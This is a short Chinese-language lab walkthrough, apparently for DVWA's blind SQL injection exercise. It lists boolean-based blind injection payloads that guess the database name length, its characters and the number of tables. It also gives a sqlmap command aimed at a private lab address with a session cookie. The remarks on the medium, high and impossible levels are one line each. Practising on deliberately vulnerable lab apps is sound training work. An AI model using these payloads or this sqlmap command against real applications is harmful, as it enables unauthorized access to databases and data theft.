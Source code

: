 

爆破库名长度

```
1' and length(database())=n#
```



爆破库的名字

```
 1' and ascii(substr(database(),1,1))=100 # 
```



爆破表的名字

```
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #
```



后面都是一样的流程，zhibu

### Security Medium

也是和SQL Injection一样，在协议包里面进行注入



### Security High

和上面一样



### Security Impossible

也是一样，token加上数字的限制。



### SQLMap工具注入

#### Security Low

一样做法

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=low"
```

![image-20250219151140860](../../_media/image-20250219151140860.png)
